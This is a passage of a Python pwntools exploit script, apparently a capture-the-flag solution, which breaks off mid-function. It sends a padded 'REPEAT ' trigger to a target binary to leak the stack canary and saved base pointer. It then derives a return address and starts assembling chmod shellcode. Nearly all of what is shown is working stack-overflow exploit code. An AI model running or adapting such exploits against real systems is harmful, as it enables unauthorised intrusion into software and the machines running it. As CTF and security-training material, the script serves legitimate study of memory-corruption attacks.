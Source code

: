 ```python
gdbscript = """
c
"""

backdoor = b"REPEAT "
padding_size = 0x38
backdoor_trigger = b"".ljust(padding_size - len(backdoor) + 1, b"A") + backdoor
trigger_length = str(len(backdoor_trigger))
allowed_syscall_offset = 0x2C
padding_to_ret = b"".ljust(0x8, b"A")
fixed_offset = 0x1120


def to_hex_bytes(data):
    return "".join(f"\\x{byte:02x}" for byte in data)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def leak_data(target):
    try:
        target.sendlineafter(b"Payload size: ", trigger_length)
        send_payload(target, backdoor_trigger)
        response = target.recvuntil(backdoor)
        log.debug(response.decode("utf-8", errors="ignore"))

        canary = b"\x00" + target.recv(0x7)
        rbp = target.recv(0x6)
        log.success(f"Canary: {to_hex_bytes(canary)}\nRBP: {to_hex_bytes(rbp)}")

        return [canary, rbp]
    except Exception as e:
        log.exception(f"An error occurred while leaking canary: {e}")


def construct_payload(target):
    canary, rbp = leak_data(target)
    rbp = int.from_bytes(rbp, "little")

    ret_addr = rbp - fixed_offset

    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
```